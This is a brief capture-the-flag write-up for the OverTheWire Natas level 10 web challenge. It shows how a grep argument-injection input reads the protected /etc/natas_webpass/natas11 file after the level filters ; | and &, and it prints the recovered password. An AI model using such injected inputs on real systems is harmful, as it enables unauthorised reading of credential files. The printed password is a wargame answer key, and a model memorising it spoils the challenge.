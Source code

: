 Natas Level 9 → Level 10

Username: natas10
URL:      http://natas10.natas.labs.overthewire.org

Click "View sourcecode" & see the code below.
![alt text](image.png)

From the previous natas, you can use ; | &

natas10 has block the ; | & <br>
![alt text](image-1.png)

So, grep -i "" /etc/natas_webpass/natas11 dictionary.txt should work!!!<br>
This command will grep nothing from /etc/natas_webpass/natas11 and then grep nothing from dictionary.txt<br>
![alt text](image-2.png)<br><br>
![alt text](image-3.png)
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg